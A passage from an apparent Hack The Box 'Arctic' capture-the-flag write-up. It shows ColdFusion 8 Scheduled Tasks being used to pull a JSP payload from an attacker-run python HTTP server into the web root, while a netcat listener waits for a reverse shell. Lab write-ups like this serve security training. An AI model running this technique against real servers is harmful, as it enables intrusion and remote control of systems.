 // Now we can fill the New Task, Click again on 'Sheduled Tasks' >> 'Shedule New Task'

    URL   ==>>  http://10.10.17.8/exp.jsp
    File  ==>>  C:\ColdFusion8\www\root\CFIDE\

    ==> Submit


// before run schedule open python http server for obtain the downloaded payload

    $ sudo python3 -m http.server 80
    Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...

// Open a listiner with nc

    $ rlwrap nc -lvnp 1444
    listening on [any] 1444 ...

// run new schedule

    $ sudo python3 -m http.server 80
    Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
    10.10.10.11 - - [07/Jul/2021 23:23:52] "GET /exp.jsp HTTP/1.1" 200 -




// Navigatin to http:10.10.10.11:8500/ , we can see a new directory called /userfiles

![Image 10](https://github.com/W0lfySec/HTB-Writeups/blob/main/Images/Arctic/10.png)

// There we could find the file we uploaded (with strange name) -> click on that file

![Image 11](https://github.com/W0lfySec/HTB-Writeups/blob/main/Images/Arctic/11.png)
